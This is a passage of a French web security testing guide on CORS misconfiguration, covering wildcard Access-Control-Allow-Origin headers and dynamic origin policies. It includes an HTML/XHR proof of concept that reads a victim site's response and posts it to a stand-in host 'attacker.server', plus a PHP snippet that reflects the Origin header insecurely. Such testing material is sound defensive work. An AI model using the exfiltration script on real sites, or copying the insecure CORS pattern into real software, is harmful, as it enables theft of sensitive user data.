 ### Mauvaise configuration CORS

La définition du caractère générique sur l'en-tête `Access-Control-Allow-Origin` (c'est-à-dire `Access-Control-Allow-Origin : *`) n'est pas sécurisée si la réponse contient des informations sensibles. Bien qu'il ne puisse pas être utilisé avec `Access-Control-Allow-Credentials: true` en même temps, il peut être dangereux lorsque le contrôle d'accès est effectué uniquement par les règles de pare-feu ou les adresses IP source, autre que d'être protégé par des informations d'identification.

#### Wildcard Access-Control-Allow-Origin

Un testeur peut vérifier si `Access-Control-Allow-Origin: *` existe dans les messages de réponse HTTP.

```http
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[Response Body]
```

Si une réponse contient des données sensibles, un attaquant peut les voler en utilisant XHR :

```html
<html>
    <head></head>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    var xhr2 = new XMLHttpRequest();
                    // attacker.server: attacker listener to steal response
                    xhr2.open("POST", "http://attacker.server", true);
                    xhr2.send(xhr.responseText);
                }
            };
            // victim.site: vulnerable server with `Access-Control-Allow-Origin: *` header 
            xhr.open("GET", "http://victim.site", true);
            xhr.send();
        </script>
    </body>
</html>
```

#### Politique CORS dynamique

Une application Web ou une API moderne peut être implémentée pour autoriser dynamiquement les requêtes cross-origin, généralement afin d'autoriser les requêtes des sous-domaines comme suit :

```php
if (preg_match('|\.exemple.com$|', $_SERVER['SERVER_NAME'])) {
   header("Access-Control-Allow-Origin: {$_SERVER['HTTP_ORIGIN']}");
   ...
}
```
